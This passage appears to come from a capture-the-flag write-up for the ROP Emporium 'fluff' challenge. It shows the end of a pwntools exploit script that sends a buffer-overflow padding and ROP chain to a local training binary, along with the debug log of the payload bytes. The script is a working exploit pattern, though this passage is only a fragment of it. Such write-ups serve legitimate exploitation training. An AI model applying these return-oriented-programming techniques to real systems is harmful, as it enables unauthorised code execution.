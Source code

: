 ```python
prepare_al(target, initial_al, rop, io.elf)

# Build the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
    padding,
    rop.chain()
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './fluff' argv=[b'./fluff'] : pid 7264
[DEBUG] Wrote gdb script to '/tmp/pwn1f_ru1mm.gdb'
    b *0x0040062a
[*] running in new terminal: /usr/bin/gdb -q  "./fluff" 7264 -x /tmp/pwn1f_ru1mm.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./fluff" 7264 -x /tmp/pwn1f_ru1mm.gdb']
[+] Waiting for debugger: Done
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[*] '/home/kali/ctf/rop-emporium/fluff/x64/fluff'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './fluff'
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 print_file
[DEBUG] Received 0x68 bytes:
    b'fluff by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'You know changing these strings means I have to rewrite my solutions...\n'
    b'> '
[DEBUG] Sent 0x49 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  2a 06 40 00  00 00 00 00  │AAAA│AAAA│*·@·│····│
    00000030  00 40 00 00  00 00 00 00  c7 c4 3f 00  00 00 00 00  │·@··│····│··?·│····│
    00000040  28 06 40 00  00 00 00 00  0a                        │(·@·│····│·│
    00000049
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```
